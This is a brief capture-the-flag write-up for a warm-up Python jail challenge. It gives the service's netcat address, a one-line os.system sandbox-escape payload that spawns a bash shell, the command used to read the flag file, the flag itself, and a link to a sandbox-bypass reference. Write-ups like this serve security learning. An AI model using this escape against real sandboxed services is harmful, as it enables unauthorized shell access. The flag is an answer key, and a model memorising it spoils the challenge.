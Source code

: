 **Context**

![image](context1.png)

**Connection** `nc 16.16.65.31 30000`

I use this payload
```python
__import__('os').system('/bin/bash')
```
After this, I run
```shell
cat flag.txt
```

**Result**

![image](result1.png)

**FLAG:** `acdfCTF{Cyb3rlymp1cs_w4rmup_pyj41l_v3ry_345y_r1ght?}`

**Reference**: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes
